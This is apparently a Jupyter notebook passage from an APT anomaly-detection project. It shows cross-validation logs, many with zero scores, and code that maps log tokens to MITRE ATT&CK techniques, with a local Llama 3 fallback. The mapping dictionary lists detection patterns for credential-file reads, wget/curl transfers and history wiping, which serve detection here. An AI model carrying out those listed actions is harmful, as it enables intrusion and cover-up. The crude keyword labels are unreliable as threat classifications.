c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 3/5 ---
    -> Training Baseline... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 4/5 ---
    -> Training Baseline... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0

  --- Fold 5/5 ---
    -> Training Baseline... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Sparse... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Deep SVDD... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training DAE... Done. PR-AUC: 0.0 | F1: 0.0
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Beta-VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training GMVAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Robust... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


Done. PR-AUC: 0.0 | F1: 0.0

Processing: THEIA - ProcessAll
  Total Normal Logs: 279269 | Total Anomaly Logs: 100

  --- Fold 1/5 ---
    -> Training Baseline... Done. PR-AUC: 0.8933 | F1: 0.2552
    -> Training Sparse... Done. PR-AUC: 0.0106 | F1: 0.0
    -> Training Deep SVDD... Done. PR-AUC: 0.6113 | F1: 0.7391
    -> Training DAE... Done. PR-AUC: 0.1736 | F1: 0.174
    -> Training VAE... Done. PR-AUC: 0.009 | F1: 0.0
    -> Training Beta-VAE... Done. PR-AUC: 0.0097 | F1: 0.0055
    -> Training GMVAE... Done. PR-AUC: 0.0109 | F1: 0.0
    -> Training Attention AE... 

KeyboardInterrupt: 

#### XAI Integration and MITRE ATT&CK mapping

##### v1

In [13]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
import json
from lime.lime_text import LimeTextExplainer

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'
EMBEDDER_NAME = "BAAI/bge-m3"
INPUT_DIM = 1024  # Critical: BGE-M3 uses 1024

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

# Set this to True to enable Local Llama 3 mapping
USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING (Fallback)
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "/bin/sh": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "sh": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "python": "T1059.006 - Command and Scripting Interpreter: Python",
    "perl": "T1059.005 - Command and Scripting Interpreter: Perl",
    "ruby": "T1059.006 - Command and Scripting Interpreter",
    "ls": "T1083 - File and Directory Discovery",
    "find": "T1083 - File and Directory Discovery",
    "locate": "T1083 - File and Directory Discovery",
    "tree": "T1083 - File and Directory Discovery",
    "whoami": "T1033 - System Owner/User Discovery",
    "id": "T1033 - System Owner/User Discovery",
    "uname": "T1082 - System Information Discovery",
    "hostname": "T1082 - System Information Discovery",
    "uptime": "T1082 - System Information Discovery",
    "ps": "T1057 - Process Discovery",
    "top": "T1057 - Process Discovery",
    "netstat": "T1049 - System Network Connections Discovery",
    "ss": "T1049 - System Network Connections Discovery",
    "nmap": "T1046 - Network Service Discovery",
    "ping": "T1018 - Remote System Discovery",
    "traceroute": "T1018 - Remote System Discovery",
    "arp": "T1046 - Network Service Discovery",
    "route": "T1046 - Network Service Discovery",
    "cp": "T1565 - Data Manipulation",
    "mv": "T1565 - Data Manipulation",
    "rm": "T1070.004 - File Deletion",
    "touch": "T1565 - Data Manipulation",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "chown": "T1222.002 - File and Directory Permissions Modification",
    "sudo": "T1548.003 - Abuse Elevation Control Mechanism: Sudo",
    "su": "T1548 - Abuse Elevation Control Mechanism",
    "/etc/passwd": "T1003 - OS Credential Dumping",
    "/etc/shadow": "T1003 - OS Credential Dumping",
    "passwd": "T1098 - Account Manipulation",
    "cat": "T1005 - Data from Local System",
    "less": "T1005 - Data from Local System",
    "head": "T1005 - Data from Local System",
    "tail": "T1005 - Data from Local System",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "/usr/bin/curl": "T1105 - Ingress Tool Transfer",
    "wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "scp": "T1048 - Exfiltration Over Alternative Protocol",
    "ftp": "T1048 - Exfiltration Over Alternative Protocol",
    "tftp": "T1048 - Exfiltration Over Alternative Protocol",
    "ssh": "T1021.004 - Remote Services: SSH",
    "rlogin": "T1021 - Remote Services",
    "telnet": "T1021 - Remote Services",
    "crontab": "T1053.003 - Scheduled Task/Job: Cron",
    "/etc/cron": "T1053.003 - Scheduled Task/Job",
    "systemctl": "T1543 - Create or Modify System Process",
    "service": "T1543 - Create or Modify System Process",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "event setuid": "T1548 - Abuse Elevation Control Mechanism",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 172.": "T1090 - Proxy / Internal Network Communication",
    "network 192.168": "T1090 - Proxy / Internal Network Communication",
    "dns query": "T1046 - Network Service Discovery",
    "history -c": "T1070 - Indicator Removal on Host",
    "clear": "T1070 - Indicator Removal on Host",
    "unset HISTFILE": "T1070 - Indicator Removal on Host",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "execut": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell",
    "apache": "T1505.003 - Server Software Component: Web Shell",
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    """
    Calls a local Ollama instance running Llama 3 to dynamically map the token.
    """
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. 
Do not include any other text or explanations."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {
            "model": "llama3",
            "prompt": prompt,
            "stream": False,
            "temperature": 0.1 # Low temperature for strict formatting
        }
        
        response = requests.post(url, json=payload, timeout=10)
        
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        else:
            return f"[Error] Local API returned status {response.status_code}"
            
    except requests.exceptions.ConnectionError:
        return "[Error] Connection failed. Is Ollama running on your machine?"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences back into memory
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found. Please ensure it's in the current directory.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} for XAI extraction...")
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name)
        self.embedder = AutoModel.from_pretrained(embedder_name).to(self.device)
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
        text_list = [str(t) for t in text_list]

